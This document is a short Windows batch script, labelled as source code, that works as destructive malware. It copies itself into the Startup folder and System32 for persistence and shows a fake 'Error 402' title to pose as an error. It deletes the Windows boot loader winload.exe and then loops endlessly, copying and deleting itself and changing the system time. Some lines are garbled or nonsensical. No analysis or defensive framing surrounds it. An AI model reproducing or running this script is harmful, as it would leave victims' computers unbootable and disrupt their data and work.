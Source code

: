 @echo off
copy %0 %appdata%\Microsoft\Windows\Start Menu\Programs\Startup
cd C:\Windows\System32
copy %0 C:\Windows\System32
xcopy LogonUI.exe crash.bat
chcp 65001
title Ошибка 402 Error 402
xcopy ntoskrnl.exe crash.bat
:crashWinTotal
cd C:\Windows\System32
start winload.exe
copy winload.exe %appdata%\Microsoft\Windows\Start Menu\Programs\Startup
del winload.exe
:winCrash
copy %0
del %0
time 3:00
time 12:00
goto winCrash
goto crashWinTotal
